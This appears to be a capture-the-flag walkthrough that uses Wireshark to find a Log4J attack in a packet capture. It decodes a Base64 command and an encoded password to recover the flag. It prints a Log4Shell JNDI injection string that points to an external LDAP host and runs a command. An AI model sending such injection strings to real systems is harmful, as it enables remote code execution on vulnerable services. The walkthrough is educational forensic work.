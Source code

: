 # Log4jVulnAttack | Difficulty: Easy

## Requirements:

- Anaylzing PCAP file using software like Wireshark
- Base understanding about Log4J CVE-2021-45105 and how attacks are done

---

## Steps:

1.  Open `packets.pcap` using any packet analysis software you want. I will be using `Wireshark`.
2.  Identify that a potential Log4J attack might have occured.

    You can determine by searching for any packets using the `LDAP` protocol or whether any IPs contains the word `jndi` in them.

    ![LDAP search](Guide-Media/2022-05-16%2018-29-17.png)
    ![jdni search](Guide-Media/2022-05-16%2018-29-50.png)

3.  There is a very suspicious `HTTP` packet found from the second search.

    From our search for whether any IP contains jndi, we noticed a suspicious packet.\
    Let us examine this packet further.

    You can right-click on the packet in `Wireshark` and select the option: `Follow -> HTTP Stream`.

    ![Follow stream](Guide-Media/2022-05-16%2018-33-57.png)

    From this we can extract two pieces of information:

    ```
    # FIRST INFORMATION
    ${jndi:ldap://52.221.178.168:389/Basic/Command/Base64/ZWNobyAnVTJGc2RHVmtYMThwTjlQZzBKemIzMnM3VGhYUTQycVJmQ1dVTkpPbFhpdnk1UTFITk9OdFFBMzBpbituU0JrTycgfCBvcGVuc3NsIGFlcy0yNTYtY2JjIC1hIC1kIC1zYWx0}
    ```

    ```
    # SECOND INFORMATION
    I wonder what this is: aV9saWtlX3RoaXNfa2V5  Maybe its a password OR an 3Nc0d3d one...
    ```

4.  Decode the `Base64` string found in the first info.

    There appears to be a Base64 Command in the first info we have:

    ${jndi:ldap://52.221.178.168:389/Basic/Command/**Base64**/`ZWNobyAnVTJGc2RHVmtYMThwTjlQZzBKemIzMnM3VGhYUTQycVJmQ1dVTkpPbFhpdnk1UTFITk9OdFFBMzBpbituU0JrTycgfCBvcGVuc3NsIGFlcy0yNTYtY2JjIC1hIC1kIC1zYWx0`}

    Let decode this into `UTF-8` (text):

    ```
    ZWNobyAnVTJGc2RHVmtYMThwTjlQZzBKemIzMnM3VGhYUTQycVJmQ1dVTkpPbFhpdnk1UTFITk9OdFFBMzBpbituU0JrTycgfCBvcGVuc3NsIGFlcy0yNTYtY2JjIC1hIC1kIC1zYWx0
    ```

    Using any decoder you wish, it will decode to:

    ```bash
    echo 'U2FsdGVkX18pN9Pg0Jzb32s7ThXQ42qRfCWUNJOlXivy5Q1HNONtQA30in+nSBkO' | openssl aes-256-cbc -a -d -salt
    ```

    Let us try running this command in our terminal and seeing what happens:

    ![Trying command](Guide-Media/2022-05-16%2018-39-28.png)

    It seems to require a password. Perhaps this is what the second piece of info is for.

5.  Examine the second info.

    ```
    I wonder what this is: aV9saWtlX3RoaXNfa2V5  Maybe its a password OR an 3Nc0d3d one...
    ```

    It is prompting us that the string `aV9saWtlX3RoaXNfa2V5` is either the password or connected to it somehow.

    First let us try using it as the password for the earlier command:

    ![Trying-Decrypt](Guide-Media/2022-05-16%2018-42-21.png)

    It lead to a bad decrypt which means that it isn't the password directly.\
    The message also hinted to us that it might have been `encoded` (3Nc0d3d).

    You can try decoding it using many different forms of encoding but let us try decoding it as `base64` and seeing the result:

    ```
    aV9saWtlX3RoaXNfa2V5
    ```

    Using any decoder you wish, results in:

    ```
    i_like_this_key
    ```

    Let us try using this new string: `i_like_this_key` as the password for the earlier command:

    ![Success-Decrypt](Guide-Media/2022-05-16%2018-47-09.png)

    Success! We have found the flag.

         flag@log4j_vuln_is_crazy
